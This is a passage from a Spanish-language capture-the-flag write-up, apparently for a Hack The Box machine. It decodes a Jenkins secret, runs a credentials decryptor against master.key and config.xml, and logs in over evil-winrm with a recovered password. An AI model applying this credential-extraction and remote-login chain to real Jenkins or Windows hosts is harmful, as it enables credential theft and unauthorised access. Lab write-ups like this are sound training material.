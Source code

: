 Para guardarlos en el archivo ahora decodeados

```s
echo "gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=" | base64 -d > hudson.util.Secret
```

Y ahora que tenemos los secrets necesarios, solo necesitamos usar la herramienta anterior de la manera siguiente:

```s
#Como me salia error por el masterkey, tuve que quitar el salto de linea con:
cat master.key | tr -d '\n' | sponge master.key
#Para iniciar el programa que desencripta el jenkins
./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml
```

![jenkins decripted](/assets/images/Object/jenkins_decripted.png)

Lo siguiente seria intentar conectarse a la maquina con evil-winrm

```s
evil-winrm -i 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'
```

Ahora tenemos acceso a la flag en el Desktop, para seguir buscando la manera de escalar los privilegios lo siguiente seria:

![net user](/assets/images/Object/net_user.png)

Vemos que tenemos ahora que ganarnos el usuario Maria.
